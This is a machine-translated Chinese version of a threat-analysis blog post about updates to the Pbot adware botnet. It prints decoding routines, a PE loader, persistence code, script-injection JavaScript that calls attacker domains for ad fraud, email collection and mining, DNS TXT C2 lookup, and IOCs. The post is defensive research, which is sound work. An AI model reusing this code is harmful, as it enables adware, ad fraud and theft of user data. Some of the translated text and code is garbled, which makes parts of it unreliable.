



# 不再是你的旧广告软件，PBOT 更新

> 原文：<https://medium.com/walmartglobaltech/not-your-same-old-adware-anymore-pbot-updates-6d43b159ab35?source=collection_archive---------1----------------------->


广告软件在历史上一直被忽视，但多年来越来越多的参与者已经意识到浏览器扩展等东西实际上是一个僵尸网络。因此，什么使一个扩展恶意与否取决于谁在运行僵尸网络，然而这可以改变，因为人们可以购买一个流行的扩展的权利，然后加载他们想要的任何东西，接管一个开发者帐户，甚至只是开发自己的并随着时间的推移利用它们。

最近微软谈到了一个利用浏览器扩展和凭证窃取者的广告软件僵尸网络[4]，我也谈到了另一个作为安装程序分发的广告软件僵尸网络，它利用了同一个“Finder”窃取者[3]。在最近调查我们从两个僵尸网络中涉及的一个参与者转向的一些基础设施时，我们偶然发现了一些关于 Pbot 的有趣见解，Pbot 是一个用于广告软件的 python 脚本和 PE 组件的系统，自 Malwarebytes 在 2018 年对其进行了出色的撰写以来，它没有发生太大变化[5]。

# Pbot 有什么新功能？

如今，Pbot 基本上还是老样子，但是他们现在利用 NSIS 的安装人员来安装他们的各种组件。

“my_”的安装程序示例，不包括内置 python:

```
filter.bin
rules.ini
settings.ini
start.bin
start.pyc
js/example.js
js/vd.js
js/yt.js
$INSTDIR_upd/Kodobi.exe
$INSTDIR_upd/start.bin
$INSTDIR_upd/start.pyc
$PLUGINSDIR/nsExec.dll
```

在对脚本进行解码和去模糊化之后，我们剩下的 python 脚本与 Malwarebytes 经历的非常相似。因此，我们将简单地强调一些额外的混淆。

“start.pyc”负责加载、异或解码和执行“start.bin ”,这意味着“start.bin”也将是 python 代码。

```
>>> a = open('start.bin', 'rb').read()
>>> key = [119, 202, 9, 62, 242, 222, 133, 29, 119, 84, 152, 171, 160, 91, 146, 153, 126, 48]
>>> a = bytearray(a)
>>> for i in range(len(a)):
...   a[i] ^= key[i%len(key)]
...
>>> a
bytearray(b'import zlib\r\nimport b
```

解码后的“start.bin”代码与 Hasherzade 在他们的 Malwarebytes 文章中详细描述的非常相似，该脚本负责在解码之前加载“filter.bin”文件:

```
HF = open('filter.bin', 'rb')
C.GetVersion()
Hx = HF.read()
X.UnhookWindowsHookEx(414986859)
HF.close()
X.GetSubMenu(3554727512,876685492)
HU = len(Hx)
C.GetCommandLineA()
X.RegisterHotKey(2993556035,767033726,1828451905,4004424231)
HN = C.VirtualAlloc(0, 1748992, 4096, 64)
```

解码将利用存储在 base64 blob 底部的 list 列表，然后加载期望 PE 文件的文件:

```
if (d(hy) != 23117):
    z('Not an MZ image!')
cH = t((hy + s.cx.offset))
cc = (hy + cH)
if (t(cc) != 17744):
    z('Not an PE image!')
```

该脚本还负责安装持久性:

```
def mainfn():
    from time import time
    from math import ceil
    from sys import argv
    from random import shufflecheckers=[chkStartUpLnk, chkRegRun, chkTask]
    deleters=[delStartUpLnk, delRegRun, delTask]
    healers=[setStartUpLnk, setRegRun, setTask]if getattr(opts, "ACTION")=="default":
        tm=0.0
        if os.path.isfile('time.txt'):
            f=open('time.txt')
            tm=parseTime(f.read())
            f.close()f=open('time.txt', 'w')
        f.write(str(time()))
        f.close()if time()-tm<63.0:
            returnsubprocess.Popen(launchCmd, creationflags=0x00000208)toHeal=[]for i in range(0, len(checkers)):
            if not checkers[i]():
                toHeal.append(healers[i])shuffle(toHeal)
        nWorked = len(checkers)-len(toHeal)
        minWorked=ceil(len(checkers)*0.5)
        nHeal=max(minWorked-nWorked, 0)for j in range(0, nHeal):
            toHeal[j]()
        returnif getattr(opts, "ACTION")=="inst":
        for h in healers:
            h()
        return
    if getattr(opts, "ACTION")=="uninst":
        for d in deleters:
            d()
        returnmainfn()
```

其他一些文件与 Malwarebytes 文章一致，如 rules.ini 文件和 settings.ini，安装程序还附带了一些 javascript 文件，这些文件与之前看到的其他一些广告软件 bot 活动有一些有趣的交叉。

```
!function () {
 if(window.location.href.indexOf('www.youtube.com') + 1 && window.top == window) {
  var script_old_new = document.createElement('script');
   script_old_new.src = "https://in.levitatedpie.com/soft_yo.js";
   script_old_new.async = false;
   document.head.appendChild(script_old_new);
 } else {
  if (document.location.href !== "https://www.youtube.com/embed/") {
   if (window.top !== window) return
   var new_yt_generic_div = document.createElement('div');
    new_yt_generic_div.style = 'transform:  scale(0.01, 0.01)';
    new_yt_generic_div.style.position = 'fixed';
    new_yt_generic_div.style.left = '0px';
    new_yt_generic_div.style.top = '0px';
    new_yt_generic_div.style.width = '10px';
    new_yt_generic_div.style.height = '10px';
    new_yt_generic_div.style.opacity = '0.1';
    new_yt_generic_div.style.overflow = 'hidden';
   var frame = document.createElement('iframe');
    frame.src = 'https://www.youtube.com/embed/';
    frame.style.top= '0px';
    frame.style.width = '730px';
    frame.style.height = '490px';
    new_yt_generic_div.appendChild(frame);
    document.body.appendChild(new_yt_generic_div);
  }if (document.location.href === "https://www.youtube.com/embed/") {
   var script_old_new = document.createElement('script');
   script_old_new.src = "https://in.levitatedpie.com/soft_embed.js";
   script_old_new.async = false;
   document.head.appendChild(script_old_new);
  }
 }
}();
```

也是一个将加载更多脚本的脚本:

```
if (document.documentElement.hasAttribute('new-advpp')) {
            return;
        }
        document.documentElement.setAttribute('new-advpp', 'yes');window['advppUserId'] = window.O7JFWNKS2FkEhGn3dFE;var n = document.createElement('script');
        n.src = '//api.ppfr52sx.xyz/common/module.js?streamId=TnpNPQ==';
        document.body.appendChild(n);
```

脚本“module.js”将加载“union-module.js”:

```
this.apiUrl = '//api.ppgw3t5e.xyz/common/union-module.js';
```

加载后续 javascript 文件的顺序会持续一段时间，有些似乎与执行广告欺诈和虚假点击有关，或者将更多脚本加载到不可见的 iframes 中:

```
var iframe = document.createElement('iframe');
                iframe.name = "advpp_manager";
                iframe.src = "//api.ppgw3t5e.xyz/common/cookie";
                iframe.width = '0px';
                iframe.height = '0px';
                iframe.style.border = '0px';document.body.appendChild(iframe);
```

其他一些跟踪变得相当深入:

```
UnionModule.manager.init()
            .then(function () {
                if (!CookiesModule.getCookie("___ml_clltr")) {
                    new JsLoader('//api.ppgw3t5e.xyz/assets/javascripts/collect-emails.js', function () {
                        collectEmail(UserModule.getUserId(), 'api.ppgw3t5e.xyz');
                    });
                }
                return UnionModule.manager.readCookie("visits");
            })
```

还提到了利用 coinhive 和一些通过 regex 解码的稍微模糊的字符串:

```
_ch: "Co" + '' + "in" + "" + 'Hi' + '' + 've',
        _an: "An" + "" + "" + 'o' + '' + 'ny' + '' + 'mous',var cc = '345435C067586r0004y34p345t545o045J35670654S4512237789';
var s = '4598A0000413E13S435665465465490890';
var rd = '0974545d3455497e5468789c235r545646134y34565958p45654645t4564645124386543';>>> a = '345435C067586r0004y34p345t545o045J35670654S4512237789'
>>> [x for x in a if x not in '0123456789']
['C', 'r', 'y', 'p', 't', 'o', 'J', 'S']
>>> a = '4598A0000413E13S435665465465490890'
>>> [x for x in a if x not in '0123456789']
['A', 'E', 'S']
>>> a = '0974545d3455497e5468789c235r545646134y34565958p45654645t4564645124386543'
>>> [x for x in a if x not in '0123456789']
['d', 'e', 'c', 'r', 'y', 'p', 't']
```

在这个 NSIS 安装程序里面是另一个 NSIS 安装程序，叫做 Kodobi bundle。

```
load.bin
load.pyc
mjfnijmemjilopepdgnakgghiboempgf.crx
$PLUGINSDIR/nsExec.dll
```

在以与我们解码之前的“start.bin”文件相同的方式解码“load.bin”文件后，我们剩下一个具有板载配置数据的不同脚本:

```
cnf = json.loads("{\"suffix\": \"/my\", \"domain\": \"upd.oyl4b8zhi.life\"}")
DOMAIN = cnf['domain']
SUFFIX = cnf['suffix']
```

稍后在脚本中解析该域，以构建将用于通信的 URL:

```
resolver = dns.resolver.Resolver()
    resolver.nameservers = ['8.8.8.8', '8.8.4.4']
    answers = resolver.query(DOMAIN, 'TXT')
    url = base64.b64decode(answers[0].strings[0]).decode("utf8") + SUFFIX
```

这里发生了一些有趣的事情，解析器正在寻找 TXT 记录，然后似乎期望一个 BASE64 编码的 URL？

域“upd.oyl4b8zhi.life”的 TXT 记录设置为:

```
aHR0cDovL2VmcmNxd3Z2Lnh5ei91cGQ=
```

解码:

```
http://efrcqwvv[.]xyz/upd
```

添加后缀后，我们将只剩下

```
http://efrcqwvv[.]xyz/upd/my
```

从这些 DNS TXT 记录中可以看出这一点:

```
;; QUESTION SECTION:
;upd.cdn-j4v2svnc.biz.  IN TXT;; ANSWER SECTION:
upd.cdn-j4v2svnc.biz. 3600 IN TXT "aHR0cDovL2VmdWphcW5yLnh5ei91cGQ="
```

解码:

```
http://efujaqnr[.]xyz/upd
```

脚本对这些二级域做的第一件事是拉下一个 config.json 文件:

```
{"update":[{"from":"\/files\/rules.ini?","to":"rules.ini","sha1":"d401305618f85e63524cd7393a991d9e32d90b21"},{"from":"\/files\/example.js?","to":"js\\example.js","sha1":"5d4b2d97d2eff59e30c057ea89f435501bd6856a"},{"from":"\/files\/adjts.js?","to":"js\\adjts.js","sha1":"b645d640097f8ef4d95189ad01161c1520addfcf"}],"afterupdate":[]}
```

这些来自 config.json 的文件告诉机器人它可以下载什么文件以及如何在本地存储它们，在这个包中还有一个 Chrome 扩展:

```
 "background": {
    "scripts": [
      "background.js"
    ],
    "persistent": false
  },"browser_action": {
    "default_title": "Kodobi"
  },"permissions": [
    "[http://*/*](/*/*)",
    "[https://*/*](/*/*)",
    "storage",
    "unlimitedStorage",
    "tabs"
  ],
```

“background.js”文件将为许多不同的公司启动另一个广告加载链。

# 在幕后，谁在运行 Pbot？

这是 Pbot 更新的旋风之旅，DNS TXT 记录非常有趣，我不确定 Pbot 背后的人是否理解这对于能够跟踪和追踪它们意味着什么。

让我们跳到构建器:



files 文件夹将包含每个附属机构的版本:



我试着尊重人们不被触碰的意愿，但这次我们破例了。

```
"id" INTEGER NOT NULL,
 "advppUrl" VARCHAR(255) NOT NULL,
 "metrikaId" VARCHAR(255) NOT NULL,
 "googleId" VARCHAR(255) NOT NULL,
 "googleId2" VARCHAR(255) NOT NULL,
 "updateServer" VARCHAR(255) NOT NULL,
 "updatePrefix" VARCHAR(255) NOT NULL,
 "exeFileName" VARCHAR(255) NOT NULL,
 "autoRebuild" BOOLEAN NOT NULL,
 "workingOnMailRu" BOOLEAN NOT NULL,
 "bundleExe" VARCHAR(255) NOT NULL,
 "bundleExeParams" VARCHAR(255) NOT NULL,
 "disableUninstall" BOOLEAN NOT NULL,
 "hideUninstall" BOOLEAN NOT NULL,
 "isEmptyRules" BOOLEAN NOT NULL,
 "emptyRulesTimeout" INTEGER NOT NULL,
 "hasKodobiBundle" BOOLEAN NOT NULL,
 "customName" VARCHAR(255),
 "certCustomName" VARCHAR(255),
 "addCertificate" VARCHAR(255), hasSearchBundle boolean NOT NULL default 0,77|//api.pp5rfdsq.life/common/module.js?streamId=TWpFMA==
80|//api.test.advpartners.org/common/module.js?streamId=TVRrMw==&isAdvpp=true
82|//api.test.advpartners.org/common/module.js?streamId=TVRrMw==&isAdvpp=true
83|//api.ppgw3t5e.xyz/common/module.js?streamId=TnpFPQ==
84|//api.ppgw3t5e.xyz/common/module.js?streamId=TlRjPQ==
85|//api.pptfhu11.biz/common/module.js?streamId=TlRRPQ==
```

为“advpartners”的“测试”列出了有趣的站点。


列为一个平台，以“货币化你的扩展”。有意思，但是是谁？

该项目托管在 bitbucket 上:

```
url = git@bitbucket.org:alexander-spesivtsev/webspark-build-runner.git
```

用户 Alexander Spesivtsev，我想这是一个假名，而不是俄罗斯连环杀手本人。第一次提交实际上是从“x <x>”开始的，这个人正在为构建器备份源代码:</x>

```
Author: x <x@x.x>
Date:   Tue Oct 16 07:18:20 2018 +0300backup source of builder from windows server
```

几天后，当“Alexander Spesivtsev”出现时，意味着代码库可能在这个用户得到它之前已经从其他人那里获得了。

```
Author: Alexandr Spesivtsev <alexander.spesivtsev@local-internet.ru>
Date:   Thu Oct 18 12:10:35 2018 +0700rewrite
```

然而，除了那些明显伪造的名字之外，GIT 日志中还有一些有趣的名字。

```
Author: Ruslan <teacher@moy-yii2.ru>
Date:   Thu Dec 13 22:44:35 2018 +0500- убрано сохранение в tmp_exe
```

包括一个“Ruslan”在几年后使用同一个 local-internet.ru 域名的例子:

```
Author: proger <ruslan@local-internet.com>
Date:   Thu Oct 8 04:40:38 2020 -0700- update
```

那么谁是鲁斯兰？我能找到的与这个名字的唯一联系是老师的电子邮件，其中显示一个 Ruslan 个人作为 Moy-yii2 在 Spark 上的代表，Spark 是 RU 的一个创业公司列表。值得注意的是，我们不能确认这是否是 GIT 提交中列出的人，因为它很可能是使用此人姓名的人，因为数据可以跟踪到看起来是真实的人，我们编辑了大多数信息，除了可以从 GIT 提交中直接引用的数据。


Credit: Spark.ru

# IOCs

```
winpatchz.net
upd.cdn-j4v2svnc.biz
metds.net
efujaqnr.xyz
bestlivestat.com
efrcqwvv.xyz
oyl4b8zhi.life
efkbt6yy.biz
efounkpq.xyz
efzdeesa.xyz
advpartners.org
lipartners.ru
pp71r6ff.biz
ppaok2j3.xyz
ppard4g4.biz
ppc9o8fa.biz
ppdczpt6.biz
ppddsn6v.biz
ppdmi9oo.xyz
ppdxv69j.biz
ppevpl8u.xyz
ppfbe3ws.xyz
ppfd3c6h.xyz
ppfd6tbn.xyz
ppfercza.xyz
ppfr52sx.xyz
ppfrbaai.xyz
ppfrqamm.xyz
ppfsz5t5.xyz
ppgbtedd.biz
ppgczn65.xyz
ppgdwqqc.xyz
ppggfe2w.biz
ppgrfcc4.xyz
ppgw3t5e.xyz
pphb5dpz.xyz
pphgecv2.xyz
ppht4edv.xyz
ppijklp9.biz
ppijrfs9.xyz
ppirqvik.xyz
ppiy66dq.biz
ppjbsasc.biz
ppju76rf.xyz
pplfvseq.biz
ppln51fv.biz
ppnb2ap8.xyz
ppnmygkk.xyz
ppogpyz3.biz
ppoin2ws.xyz
ppqoi1b2.biz
pprfkk87.biz
pprum43y.biz
ppsbb4kj8.xyz
ppsqvgzj.xyz
pptfdalp.biz
pptfhu11.biz
pptfqxxs.biz
pptgvfrr.xyz
pptvpo9i.xyz
ppube3iy.xyz
ppubfefr.biz
ppubh2fc.biz
ppunppqa.xyz
pputjqyy.biz
ppuyvccj.biz
ppvpmk5q.xyz
ppwoyj98.biz
ppyvbv32.biz
ppyvoa6t.biz
ppyvzz8u.biz
rdhveq19.biz
rdpjyg3z.biz
ws-test.pw
cdn-j4v2svnc.biz
```

# 参考

1:[https://www . netscout . com/blog/asert/stopped-pencil-campaign-targets-academia](https://www.netscout.com/blog/asert/stolen-pencil-campaign-targets-academia)

2:[https://www . welivesecurity . com/2017/06/06/tur las-wating-hole-campaign-updated-Firefox-extension-abiling-insta gram/](https://www.welivesecurity.com/2017/06/06/turlas-watering-hole-campaign-updated-firefox-extension-abusing-instagram/)

3:[https://www . flash point-Intel . com/blog/new-discovered-malware-framework-cash-in-on-ad-fraud/](https://www.flashpoint-intel.com/blog/newly-discovered-malware-framework-cashing-in-on-ad-fraud/)

4:[https://www . Microsoft . com/security/blog/2020/12/10/average-malware-campaign-seeks-to-silent-inject-ads-into-search-results-affects-multiple-browsers/](https://www.microsoft.com/security/blog/2020/12/10/widespread-malware-campaign-seeks-to-silently-inject-ads-into-search-results-affects-multiple-browsers/)

5:[https://blog . malware bytes . com/threat-analysis/2018/04/pbot-python-based-adware/](https://blog.malwarebytes.com/threat-analysis/2018/04/pbot-python-based-adware/)